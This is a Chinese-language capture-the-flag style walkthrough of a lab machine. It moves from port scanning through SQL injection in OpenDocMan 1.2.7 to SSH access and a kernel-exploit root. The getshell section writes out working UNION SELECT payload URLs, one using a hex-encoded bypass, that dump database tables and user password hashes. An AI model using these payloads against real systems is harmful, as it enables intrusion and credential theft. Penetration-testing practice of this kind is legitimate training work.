


# 一、信息收集

1. 主机发现，使用的是桥接网卡，192.168.0.103是宿主机ip，那么192.168.0.101就是靶机了
   
   ```shell
   sudo arp-scan -l
   ```
   
    

2. 端口扫描，发现开放了22、80、6667三个端口
   
   ```shell
   nmap -sV -A -T4 -v -p- 192.168.0.101
   ```
   
    

3. 扫描一下是否有主机漏洞，nmap扫描发现有sqli
   
   ```shell
   nmap --script=vuln 192.168.0.101
   ```
   
    

4. nikto再扫描一下web漏洞，显示有CVE-2003-1418
   
   ```shell
   nikto -h http://192.168.0.101
   ```
   
    

5. 访问一下web，首页界面与上一个靶机web首页是一样的，再访问一下nmap发现的存在sqli的jabc目录
    

6. whatweb探测一下web信息，是drupal 7，web中间件apache 2.4.7，php 5.5.9，web服务器拓展mod dav 2
   
   ```shell
   whatweb http://192.168.0.101/jabc
   ```
   
    

7. 搜索漏洞，如下，同样显示drupal 7版本存在sqli，其中drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Remote Code Execution)这个漏洞可以执行远程代码，但是尝试后没有成功
    

8. 查看web页面前端源码，发现两处重要信息，jabcd0c页面可以使用guest/guest登录
    
   
    

# 二、getshell

1. 访问该页面，使用guest/guest成功登录，发现有个上传功能，但是做了白名单限制，几乎没有，该界面下方有版权信息OpenDocMan v1.2.7，也是用cms搭建的，搜索该版本cms漏洞，发现存在sqli，使用poc探测数据库版本信息和用户权限，发现系统为ubuntu 14.04，mysql 5.5.47，数据库权限为root
   
   ```shell
   http://192.168.0.101/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,concat(version(),0x3a,user()),3,4,5,6,7,8,9
   ```
   
    

2. 获取数据库名，如下数据库名为jabcd0cs
   
   ```shell
   http://192.168.0.101/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,concat(database()),3,4,5,6,7,8,9
   ```
   
    

3. 获取当前数据库的表名
   
   ```shell
   http://192.168.0.101/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,group_concat(table_name),3,4,5,6,7,8,9%20from%20information_schema.tables%20where%20table_schema=database()
   ```
   
    

4. 查询odm_user表中的列名时发现没有回显，猜测应该是过滤了单引号，可以使用十六进制绕过
   
   ```shell
   http://192.168.0.101/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,group_concat(column_name),3,4,5,6,7,8,9%20from%20information_schema.columns%20where%20table_name=0x6F646D5F75736572%20and%20table_schema=database()
   ```
   
    

5. 查询username、password字段的值，如下，成功获取到用户名和密码
   
   ```shell
    http://192.168.0.101/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,group_concat(username,0x3a,password),3,4,5,6,7,8,9%20from%20odm_user
   ```
   
     webmin:b78aae356709f8c31118ea613980954b
     guest:084e0343a0486ff05530df6c705c8bb4
   
   ```
   
   ```

6. 解密后得到用户口令webmin/webmin1980，成功以管理员登录OpenDocMan，再Admin中添加文件类型，将text/x-php添加到文件白名单
    

7. 在Admin——>Setting中找到上传路径
    

8. 反弹shell失败，发现文件被强制转换成了dat文件，没有找到文件包含
    

9. 尝试使用webmin用户登录ssh，成功获取shell
    

# 三、权限提升

1. 查看系统内核版本
   
    

2. 搜索该版本内核漏洞，发现第一个exp就可以
   
    

3. 将exp脚本上传到靶机，使用gcc编译，执行exp，成功获取root权限
    